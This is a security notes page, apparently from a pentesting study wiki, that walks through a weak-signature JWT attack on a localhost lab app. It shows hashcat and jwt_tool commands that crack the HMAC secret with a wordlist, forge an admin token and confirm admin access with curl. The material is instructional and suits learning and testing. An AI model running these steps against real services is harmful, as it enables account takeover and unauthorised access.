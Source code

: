 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Weak Signature

> _The below example is based on TCM's_ [_Practical API Hacking_](https://academy.tcm-sec.com/p/hacking-apis) _course._

{% hint style="info" %}
_List with well-known secrets:_ [_jwt.secrets.list_](https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list)_._
{% endhint %}

{% code overflow="wrap" %}
```bash
# Logging in with valid creds
$ curl -X POST http://localhost/login -H 'Content-Type: application/json' --data '{"username":"user","password":"user"}'
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwiaWF0IjoxNzE5Mjk1MTA5fQ.aUlvUvP4XbodwpBalrS-1t70Sqx7FxQCvBrmwT8oCDM"}

# Brute forcing the secret
hashcat -a0 -m16500 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwiaWF0IjoxNzE5Mjk1MTA5fQ.aUlvUvP4XbodwpBalrS-1t70Sqx7FxQCvBrmwT8oCDM /usr/share/wordlists/rockyou
<SNIP>
eyJ...<SNIP>...CDM:ucyxu6
<SNIP>

# We can also crack the JWT secret with jwt_tool
$ jwt_tool -C -d /usr/share/wordlists/rockyou 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QifQ==.BmzWWVFXmJsqH7K9dTxCyCopRB0HHFvCYKCfwW+8We4='

Original JWT:

[+] coffee is the CORRECT key!
You can tamper/fuzz the token contents (-T/-I) and sign it using:
python3 jwt_tool.py [options here] -S hs256 -p "coffee"
```
{% endcode %}

{% hint style="info" %}
_Hashcat signs the header and payload from the JWT using each wordlist secret and compares the resulting signature with the original one (_[_16500_](https://hashcat.net/wiki/doku.php?id=example\_hashes)_)._
{% endhint %}

<figure><img src="../../../../../../../.gitbook/assets/jwt_weak_signature.png" alt=""><figcaption><p>Figure 1: Tampering with the JWT's <code>userid</code> claim.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Testing the token
$ curl -i http://localhost/dashboard -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJhZG1pbiIsImlhdCI6MTcxOTI5NTEwOX0.py2v7_Kqtexh4Cq8hqBdEV8wiCr8p6x9eeZFNGlKW4U'
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 45
ETag: W/"2d-bqbMS3LH08+zkhZI3cPwYShjqaE"
Date: Tue, 25 Jun 2024 06:09:39 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"message":"Welcome to your dashboard admin"}
```
{% endcode %}

We can also tamper the required claims using `jwt_tool`.

{% code overflow="wrap" %}
```bash
# Tampering with the JWT
$ jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwiaWF0IjoxNzE5Mjk1MTA5fQ.aUlvUvP4XbodwpBalrS-1t70Sqx7FxQCvBrmwT8oCDM -T -S hs256 -p 'ucyxu6'

Original JWT:

====================================================================
This option allows you to tamper with the header, contents and
signature of the JWT.
====================================================================

Token header values:
[1] alg = "HS256"
[2] typ = "JWT"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] userid = "user"
[2] iat = 1719295109    ==> TIMESTAMP = 2024-06-25 06:58:29 (UTC)
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[5] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of userid is: user
Please enter new value and hit ENTER
> admin
[1] userid = "admin"
[2] iat = 1719295109    ==> TIMESTAMP = 2024-06-25 06:58:29 (UTC)
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[5] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
jwttool_8043cf61f00c28f7a057cdc20df41290 - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJhZG1pbiIsImlhdCI6MTcxOTI5NTEwOX0.py2v7_Kqtexh4Cq8hqBdEV8wiCr8p6x9eeZFNGlKW4U
```
{% endcode %}

We can also tamper the JWT's claim using the Burp's [JWT Editor](https://portswigger.net/burp/documentation/desktop/testing-workflow/session-management/jwts#editing-jwts) extension (Figure 2).

> _The below example is base on PortSwigger's_ [_JWT attacks_](https://portswigger.net/web-security/jwt) _module._

<figure><img src="../../../../../../../.gitbook/assets/jwt_weak_signature_1.png" alt=""><figcaption><p>Figure 2: </p></figcaption></figure>

